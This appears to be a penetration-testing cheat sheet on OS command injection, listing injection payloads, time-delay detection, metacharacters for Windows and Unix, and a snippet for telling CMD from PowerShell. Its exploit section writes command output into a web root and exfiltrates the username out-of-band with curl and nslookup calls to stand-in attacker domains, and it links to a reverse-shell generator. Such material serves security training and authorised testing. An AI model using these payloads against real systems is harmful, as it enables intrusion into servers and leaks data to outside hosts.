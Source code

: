 ```yaml
---
title: "OS command injection"
weight: 18
description: "Learn about OS command injection vulnerabilities, detection methods, and exploitation techniques. Understand how to bypass restrictions and use metacharacters for injecting commands in both Windows and Unix systems."
---
```


# OS command injection

## Command injection

```sh
& echo qwerty &
```

Placing `&` after the injected command is generally useful because it separates the injected command from whatever follows the injection point.

## Blind OS command

**Detection**

```sh
# 10 sec. time delay
& ping -c 10 127.0.0.1 &
```

**Exploit**

1. Redirecting output. Note: you must have write permission

```sh
& whoami > /var/www/static/whoami.txt &
curl https://website.com/whoami.txt
```

2. Out-of-band techniques

```sh
& curl `whoami`.webserver-attacker.com & # HTTP traffic may be blocked
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

## Bypass restriction

There are so many ways: [https://book.hacktricks.wiki/linux-hardening/bypass-bash-restrictions/index.html](https://book.hacktricks.wiki/linux-hardening/bypass-bash-restrictions/index.html)

## Metacharacters

```sh
# Windows & Unix
&
&&
|
||

# Unix
;

# Unix inline execution
`command`
$(command)
```

## Identify CMD or PowerShell

To determine whether commands are executed by PowerShell or CMD, use this snippet:

```cmd
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

## Reverse Shell Generator

https://www.revshells.com/